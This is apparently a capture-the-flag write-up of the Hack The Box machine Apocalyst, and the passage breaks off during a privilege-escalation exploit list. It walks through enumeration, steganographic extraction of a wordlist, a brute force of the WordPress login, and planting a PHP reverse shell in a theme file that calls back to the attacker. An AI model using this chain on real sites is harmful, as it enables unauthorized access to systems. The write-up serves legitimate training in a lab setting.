Host: `10.10.10.46`

root@kali:~# nmap -T4 -A -v 10.10.10.46

```
Starting Nmap 7.40 ( [https://nmap.org](https://nmap.org) ) at 2017–11–23 17:01 EST
NSE: Loaded 143 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 17:01
Completed NSE at 17:01, 0.00s elapsed
Initiating NSE at 17:01
Completed NSE at 17:01, 0.00s elapsed
Initiating Ping Scan at 17:01
Scanning 10.10.10.46 [4 ports]
Completed Ping Scan at 17:01, 0.14s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:01
Scanning apocalyst.htb (10.10.10.46) [1000 ports]
Discovered open port 22/tcp on 10.10.10.46
Discovered open port 80/tcp on 10.10.10.46
Completed SYN Stealth Scan at 17:01, 1.85s elapsed (1000 total ports)
Initiating Service scan at 17:01
Scanning 2 services on apocalyst.htb (10.10.10.46)
Completed Service scan at 17:01, 6.44s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against apocalyst.htb (10.10.10.46)
Retrying OS detection (try #2) against apocalyst.htb (10.10.10.46)
Retrying OS detection (try #3) against apocalyst.htb (10.10.10.46)
Retrying OS detection (try #4) against apocalyst.htb (10.10.10.46)
Retrying OS detection (try #5) against apocalyst.htb (10.10.10.46)
Initiating Traceroute at 17:01
Completed Traceroute at 17:01, 0.19s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 17:01
Completed Parallel DNS resolution of 2 hosts. at 17:01, 0.00s elapsed
NSE: Script scanning 10.10.10.46.
Initiating NSE at 17:01
Completed NSE at 17:01, 6.17s elapsed
Initiating NSE at 17:01
Completed NSE at 17:01, 0.00s elapsed
Nmap scan report for apocalyst.htb (10.10.10.46)
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 fd:ab:0f:c9:22:d5:f4:8f:7a:0a:29:11:b4:04:da:c9 (RSA)
|_ 256 76:92:39:0a:57:bd:f0:03:26:78:c7:db:1a:66:a5:bc (ECDSA)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apocalypse Preparation Blog
No exact OS matches for host (If you know what OS is running on it, see [https://nmap.org/submit/](https://nmap.org/submit/) ).
```

When we access the web-server this is what we see



For some reason the formatting of the Wordpress website is screwed up, so I added the default domain name of the box _apocalyst.htb_ to the /etc/hosts and that fixed the formatting issue.



The next step in my reconnaissance phase would be to scan for known directories names and files using Dirbuster with the Dirbuster medium dictionary. I didn’t let Dirbuster to fully run because it found 100 folders and 80 files very quickly and…


that’s way too many folders and files to go over in a CTF, so I just scanned only for folders instead but still couldn’t find anything interesting…

I created my own custom wordlist with Cewl.

```
cewl 10.10.10.46 > Desktop/custom_dict.txt
```

When we run our custom wordlist with dirbuster again we can see that all requests have a response size of 421 except one that has a size 440.



which means it has different content than all of the other requests or there’s an abnormal error. When look at the source code of the folder with the 440 response size, we can see an interesting comment.

```
<!doctype html>

<html lang=”en”>
<head>
 <meta charset=”utf-8">

<title>End of the world</title>
</head>

<body>
 
 <! — needle →
</body>
</html>
```

`<! — needle — >` maybe it’s a metaphor for a needle in a hay stack? So stenography maybe? When we go to the folder were brought to an apocalyptic image.



I saved it and checked for strings but there was no interesting strings in the metadata of the image. I used steghide to check for embedded data.

```
root@kali:~/Downloads# steghide info image.jpg
“image.jpg”:
 format: jpeg
 capacity: 13.0 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
 embedded file “list.txt”:
 size: 3.6 KB
 encrypted: rijndael-128, cbc
 compressed: yes
```

as you can see it does in fact have an embedded file named `list.txt` encrypted in `rijndael-1128` Let’s extract the file

```

root@kali:~/Downloads# steghide extract -sf image.jpg
Enter passphrase:
wrote extracted data to “list.txt”.
```

The file had no pass-phrase I just hit enter and it worked. Now we get another words-list… I didn’t know what to do with this list at the moment so I moved on to enumerating Wordpress with wpscan

```
root@kali:~/Downloads# wpscan — url [http://10.10.10.46](http://10.10.10.46) --enumerate u
_______________________________________________________________
 __ _______ _____
 \ \ / / __ \ / ____|
 \ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
 \ \/ \/ / | ___/ \___ \ / __|/ _` | ‘_ \
 \ /\ / | | ____) | (__| (_| | | | |
 \/ \/ |_| |_____/ \___|\__,_|_| |_|

 WordPress Security Scanner by the WPScan Team
 Version 2.9.3
 Sponsored by Sucuri — [https://sucuri.net](https://sucuri.net)
 @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o [A]bort, default: [N]Y
[i] Updating the Database …
[i] Update completed.
[+] URL: [http://10.10.10.46/](http://10.10.10.46/)
[+] Started: Thu Nov 23 17:51:06 2017

[!] The WordPress ‘[http://10.10.10.46/readme.html'](http://10.10.10.46/readme.html') file exists exposing a version number
[+] Interesting header: LINK: <[http://apocalyst.htb/?rest_route=/>;](http://apocalyst.htb/?rest_route=/>;) rel=”[https://api.w.org/"](https://api.w.org/)
[+] Interesting header: SERVER: Apache/2.4.18 (Ubuntu)
[+] XML-RPC Interface available under: [http://10.10.10.46/xmlrpc.php](http://10.10.10.46/xmlrpc.php)
[!] Upload directory has directory listing enabled: [http://10.10.10.46/wp-content/uploads/](http://10.10.10.46/wp-content/uploads/)
[!] Includes directory has directory listing enabled: [http://10.10.10.46/wp-includes/](http://10.10.10.46/wp-includes/)

[+] WordPress version 4.8 (Released on 2017–06–08) identified from advanced fingerprinting, meta generator, links opml, stylesheets numbers
[!] 8 vulnerabilities identified from the version number

[!] Title: WordPress 2.3.0–4.8.1 — $wpdb->prepare() potential SQL Injection
 Reference: [https://wpvulndb.com/vulnerabilities/8905](https://wpvulndb.com/vulnerabilities/8905)
 Reference: [https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/](https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/)
 Reference: [https://github.com/WordPress/WordPress/commit/70b21279098fc973eae803693c0705a548128e48](https://github.com/WordPress/WordPress/commit/70b21279098fc973eae803693c0705a548128e48)
 Reference: [https://github.com/WordPress/WordPress/commit/fc930d3daed1c3acef010d04acc2c5de93cd18ec](https://github.com/WordPress/WordPress/commit/fc930d3daed1c3acef010d04acc2c5de93cd18ec)
[i] Fixed in: 4.8.2

[!] Title: WordPress 2.9.2–4.8.1 — Open Redirect
 Reference: [https://wpvulndb.com/vulnerabilities/8910](https://wpvulndb.com/vulnerabilities/8910)
 Reference: [https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/](https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/)
 Reference: [https://core.trac.wordpress.org/changeset/41398](https://core.trac.wordpress.org/changeset/41398)
 Reference: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14725](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14725)
[i] Fixed in: 4.8.2

[!] Title: WordPress 3.0–4.8.1 — Path Traversal in Unzipping
 Reference: [https://wpvulndb.com/vulnerabilities/8911](https://wpvulndb.com/vulnerabilities/8911)
 Reference: [https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/](https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/)
 Reference: [https://core.trac.wordpress.org/changeset/41457](https://core.trac.wordpress.org/changeset/41457)
 Reference: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14719](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14719)
[i] Fixed in: 4.8.2

[!] Title: WordPress 4.4–4.8.1 — Path Traversal in Customizer
 Reference: [https://wpvulndb.com/vulnerabilities/8912](https://wpvulndb.com/vulnerabilities/8912)
 Reference: [https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/](https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/)
 Reference: [https://core.trac.wordpress.org/changeset/41397](https://core.trac.wordpress.org/changeset/41397)
 Reference: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14722](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14722)
[i] Fixed in: 4.8.2

[!] Title: WordPress 4.4–4.8.1 — Cross-Site Scripting (XSS) in oEmbed
 Reference: [https://wpvulndb.com/vulnerabilities/8913](https://wpvulndb.com/vulnerabilities/8913)
 Reference: [https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/](https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/)
 Reference: [https://core.trac.wordpress.org/changeset/41448](https://core.trac.wordpress.org/changeset/41448)
 Reference: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14724](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14724)
[i] Fixed in: 4.8.2

[!] Title: WordPress 4.2.3–4.8.1 — Authenticated Cross-Site Scripting (XSS) in Visual Editor
 Reference: [https://wpvulndb.com/vulnerabilities/8914](https://wpvulndb.com/vulnerabilities/8914)
 Reference: [https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/](https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/)
 Reference: [https://core.trac.wordpress.org/changeset/41395](https://core.trac.wordpress.org/changeset/41395)
 Reference: [https://blog.sucuri.net/2017/09/stored-cross-site-scripting-vulnerability-in-wordpress-4-8-1.html](https://blog.sucuri.net/2017/09/stored-cross-site-scripting-vulnerability-in-wordpress-4-8-1.html)
 Reference: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14726](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14726)
[i] Fixed in: 4.8.2

[!] Title: WordPress 2.3–4.8.3 — Host Header Injection in Password Reset
 Reference: [https://wpvulndb.com/vulnerabilities/8807](https://wpvulndb.com/vulnerabilities/8807)
 Reference: [https://exploitbox.io/vuln/WordPress-Exploit-4-7-Unauth-Password-Reset-0day-CVE-2017-8295.html](https://exploitbox.io/vuln/WordPress-Exploit-4-7-Unauth-Password-Reset-0day-CVE-2017-8295.html)
 Reference: [http://blog.dewhurstsecurity.com/2017/05/04/exploitbox-wordpress-security-advisories.html](http://blog.dewhurstsecurity.com/2017/05/04/exploitbox-wordpress-security-advisories.html)
 Reference: [https://core.trac.wordpress.org/ticket/25239](https://core.trac.wordpress.org/ticket/25239)
 Reference: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8295](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8295)

[!] Title: WordPress <= 4.8.2 — $wpdb->prepare() Weakness
 Reference: [https://wpvulndb.com/vulnerabilities/8941](https://wpvulndb.com/vulnerabilities/8941)
 Reference: [https://wordpress.org/news/2017/10/wordpress-4-8-3-security-release/](https://wordpress.org/news/2017/10/wordpress-4-8-3-security-release/)
 Reference: [https://github.com/WordPress/WordPress/commit/a2693fd8602e3263b5925b9d799ddd577202167d](https://github.com/WordPress/WordPress/commit/a2693fd8602e3263b5925b9d799ddd577202167d)
 Reference: [https://twitter.com/ircmaxell/status/923662170092638208](https://twitter.com/ircmaxell/status/923662170092638208)
 Reference: [https://blog.ircmaxell.com/2017/10/disclosure-wordpress-wpdb-sql-injection-technical.html](https://blog.ircmaxell.com/2017/10/disclosure-wordpress-wpdb-sql-injection-technical.html)
 Reference: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-16510](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-16510)
[i] Fixed in: 4.8.3

[+] WordPress theme in use: twentyseventeen — v1.3

[+] Name: twentyseventeen — v1.3
 | Last updated: 2017–11–16T00:00:00.000Z
 | Location: [http://10.10.10.46/wp-content/themes/twentyseventeen/](http://10.10.10.46/wp-content/themes/twentyseventeen/)
 | Readme: [http://10.10.10.46/wp-content/themes/twentyseventeen/README.txt](http://10.10.10.46/wp-content/themes/twentyseventeen/README.txt)
[!] The version is out of date, the latest version is 1.4
 | Style URL: [http://10.10.10.46/wp-content/themes/twentyseventeen/style.css](http://10.10.10.46/wp-content/themes/twentyseventeen/style.css)
 | Referenced style.css: [http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css](http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css)
 | Theme Name: Twenty Seventeen
 | Theme URI: [https://wordpress.org/themes/twentyseventeen/](https://wordpress.org/themes/twentyseventeen/)
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a…
 | Author: the WordPress team
 | Author URI: [https://wordpress.org/](https://wordpress.org/)

[+] Enumerating plugins from passive detection …
[+] No plugins found

[+] Enumerating usernames …
[+] Identified the following 1 user/s:
 + — — + — — — — — + — — — — — — — — — — — — — — — — — -+
 | Id | Login | Name |
 + — — + — — — — — + — — — — — — — — — — — — — — — — — -+
 | 1 | falaraki | falaraki — Apocalypse Preparation |
 + — — + — — — — — + — — — — — — — — — — — — — — — — — -+
```

We can see that wpscan found a bunch of possible vulnerabilities and a user named falaraki. Maybe let’s brute force wordpress with the word-list we got from the image on `http://10.10.10.46/wp-login.php`

I captured a test request in Burp Suite at the login page and sent it over to the intruder option.



Were going to select the password `pwd` parameter only and the Attack type will be Sniper. We move onto to the payloads section and add the list we got from the image. Then start the attack - all requests sent back a 200 status code and most of them had a 3101 in length except this one request that had 3764 in length meaning it either worked as the correct password, timed out, or it gave us a unique error that only that password can give.



Let’s try to login with that password Transclisiation

username: _falaraki_
password: _Transclisiation_



# …and were in!


Now we can upload our php reverse shell in the Appearance Editor. I got my php shell from [PenTestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) I’m not going to paste the entire code here because it’s a lot of code, so all you have to do is change your ip and port number. Where it says //CHANGE THIS to your ip and desired port number.

```
$ip = ‘127.0.0.1’; // CHANGE THIS
$port = 1234; // CHANGE THIS
```



Save the changes made to the file once your reverse shell is in and setup your netcat or metasploit listener. Then execute the php reverse shell.

http://apocalyst.htb/wp-content/themes/twentyseventeen/404.php



Now we can get the user flag!



“One of my go-to commands after catching a dumb shell is to use Python to spawn a pty. The [pty module](https://docs.python.org/2/library/pty.html) let’s you spawn a psuedo-terminal that can fool commands like `su` into thinking they are being executed in a proper terminal. To upgrade a dumb shell, simply run the following command”

```
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
```

I uploaded linux-exploit-suggester to the system to check for possible privilege escalation exploits.

```
www-data@apocalyst:/tmp$ ./linux-exploit-suggester.sh
./linux-exploit-suggester.sh

Kernel version: 4.4.0
Architecture: x86_64
Distribution: ubuntu
Package list: from current OS

Possible Exploits:

[+] [CVE-2015–3290] espfix64_NMI

 Details: [http://www.openwall.com/lists/oss-security/2015/08/04/8](http://www.openwall.com/lists/oss-security/2015/08/04/8)
 Download URL: [https://www.exploit-db.com/download/37722](https://www.exploit-db.com/download/37722)

[+] [CVE-2016–0728] keyring

Details: [http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/](http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/)
Download URL: [https://www.exploit-db.com/download/40003](https://www.exploit-db.com/download/40003)
Comments: Exploit takes about ~30 minutes to run

[+] [CVE-2016–2384] usb-midi
Details: [https://xairy.github.io/blog/2016/cve-2016-2384](https://xairy.github.io/blog/2016/cve-2016-2384)
Tags: ubuntu=14.04,fedora=22
Download URL: [https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c](https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c)
Comments: Requires ability to plug in a malicious USB device and to execute a malicious binary as a non-privileged user

[+] [N/A] target_offset
Details: [https://www.exploit-db.com/exploits/40049/](https://www.exploit-db.com/exploits/40049/)
Tags: ubuntu=16.04(kernel:4.4.0–21)
Download URL: [https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/40053.zip](https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/40053.zip)
Comments: ip_tables.ko needs to be loaded

[+] [CVE-2016–4557] double-fdput()
Details: [https://bugs.chromium.org/p/project-zero/issues/detail?id=808](https://bugs.chromium.org/p/project-zero/issues/detail?id=808)
Tags: ubuntu=16.04(kernel:4.4.0–62)
Download URL: [https://bugs.chromium.org/p/project-zero/issues/attachment?aid=232552](https://bugs.chromium.org/p/project-zero/issues/attachment?aid=232552)
Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2016–5195] dirtycow
Details: [https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)
Tags: RHEL=5|6|7,debian=7|8,ubuntu=16.10|16.04|14.04|12.04
Download URL: [https://www.exploit-db.com/download/40611](https://www.exploit-db.com/download/40611)

[+] [CVE-2016–5195] dirtycow 2
